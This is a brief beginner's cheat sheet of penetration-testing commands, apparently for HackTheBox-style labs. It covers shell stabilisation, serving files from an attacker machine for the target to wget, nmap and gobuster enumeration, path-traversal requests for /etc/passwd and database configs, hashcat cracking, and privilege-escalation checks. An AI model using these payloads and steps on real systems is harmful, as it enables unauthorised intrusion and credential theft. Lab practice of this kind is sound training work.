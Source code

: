 # Guide404
simple guide for noobs

----------------------GENERAL-----------------
(For every domain you find:)
1. nano /etc/hosts
(Harden the web shell)

2. python3 -c 'import pty; pty.spawn("/bin/bash")'   (SHELL HARDERING)
stty raw -echo; fg
export TERM=xterm
or
script /dev/null -c bash
stty raw -echo
fg
reset

3. (move one file from your machine to the target , if you have a ssh connection)
   --> python3 -m http.server 8888 (in the directory of yhe file you want to send)
   --> wget http://<myIP>:<port>/filename   (at target's pc)
   




---------------------ENUMERATION---------------
1. rustscan --ulimit 10000 -a <IP> -- -sC -Pn
   or
   nmap -sCV -p- <IP>
2. dirsearch -u <IP>
   and
   gobuster vhost -u http://<domain> -w /usr/share/wordlists/dirb/small.txt -k --append-domain
3. (FOR DIR ENUMERATION ON YOUR KNOWN DOMAINS)--> gobuster dir http://<example.domain.com>/ -w /usr/share/wordlists/dirb/cmmon.txt


--------------------LFI---------------------
1. (throught pdf export/download) (known exploitable files: https://github.com/hussein98d/LFI-files/blob/master/list.txt):
   --> (burpsuite) GET /download?filename=../../../../../etc/passwd HTTP/1.1
   --> GET /download?filename=../../config/database.yml HTTP/1.1



-----------------------------HASHES-----------------------------
1. go at hashcat id tables and ctr+F to searc your hash and take the id
2. hashcat -m <id> hash.txt /usr/share/wordlists/rockyou.txt




-----------------------------WEBSHELL-----------------------
(after you get a web shell)
1. python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg
export TERM=xterm
2. cat /var/www/limesurvey/application/config/config.php (you might find password for ssh)



-------------------------------PRIV ESCA-------------------------------

1) LINUX
     a) sudo -l
     b) netstat -tulpn (google search what is on those ports)
         ssh -L <port>:127.0.0.1:<port> <name>@<domain>.htb and go at the browser locasion




3) WINDOWS






